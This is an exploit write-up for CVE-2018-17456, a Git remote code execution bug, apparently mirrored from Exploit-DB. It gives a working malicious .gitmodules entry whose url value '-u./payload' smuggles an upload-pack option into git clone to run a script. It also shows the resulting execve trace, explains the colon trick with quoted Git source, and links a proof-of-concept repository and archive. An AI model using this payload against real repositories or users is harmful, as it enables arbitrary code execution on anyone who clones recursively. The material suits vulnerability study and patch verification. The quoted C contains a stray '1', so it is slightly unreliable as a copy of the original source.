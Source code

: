 # CVE-2018-17456

I've gotten a couple of questions about exploitation for the
[recent RCE](https://marc.info/?l=git&m=153875888916397&w=2) in Git. So here we
go with some technical details.

## TL;DR

[Here](https://github.com/joernchen/poc-submodule) is a PoC repository.
EDB Note: Mirror ~ https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/45631.zip

## Exploitation

The `.gitmodules` file looks as follows:

```
[submodule "x:x"]
	path = x:x
	url = -u./payload
```

The actual command being injected is set by the url, `-u./payload`
points the `upload-pack` flag of git clone to the `payload` shell
script. Note also the `:` within the path, this part is needed to
actually get the `payload` script executed.

The path will end up as the repository URL in the subsequent `clone`
operation:

```
execve("/usr/lib/git-core/git", ["/usr/lib/git-core/git", "clone",
"--no-checkout", "--progress", "--separate-git-dir",
"/tmp/huhu/.git/modules/x:x", "-u./payload", "/tmp/huhu/x:x"],...
```

As the actual URL from `.gitmodules` is interpreted as the `-u`
argument.

The colon is due to the fact, that the colon character let us go past
those lines in `transport.c`:

```c
    } else if (url_is_local_not_ssh(url) && is_file(url) && is_bundle(url, 1)) {
        struct bundle_transport_data *data = xcalloc(1, sizeof(*data));
        transport_check_allowed("file");
        ret->data = data;
        ret->vtable = &bundle_vtable;
        ret->smart_options = NULL;
```

Due to `url_is_local_not_ssh` will return false due to the colon
in the path. And therefore later on in the code the smart_options
containing the `uploadpack` setting are still in place:

```c
   } else {
		/* Unknown protocol in URL. Pass to external handler. */
		int len = external_specification_len(url);
		char *handler = xmemdupz(url, len);
		transport_helper_init(ret, handler);
	}

	if (ret->smart_options) {
		ret->smart_options->thin = 1;
		ret->smart_options->uploadpack = "git-upload-pack";
		if (remote->uploadpack)
			ret->smart_options->uploadpack = remote->uploadpack;
		ret->smart_options->receivepack = "git-receive-pack";1
		if (remote->receivepack)
			ret->smart_options->receivepack = remote->receivepack;
	}
```

## Further hints

The constraint to have a colon in the `path` seems to hinder exploitation on Windows
as a colon is a forbidden character within a path on Windows. However as noted by
some people during the disclosure: Git running within the Windows Subsystem for Linux or
cygwin will allow exploitation on Windows hosts.

Etienne Stalmans who found [a similar issue](https://staaldraad.github.io/post/2018-06-03-cve-2018-11235-git-rce/)
earlier this year managed to exploit this argument injection [using `--template`](https://twitter.com/_staaldraad/status/1049241254939246592).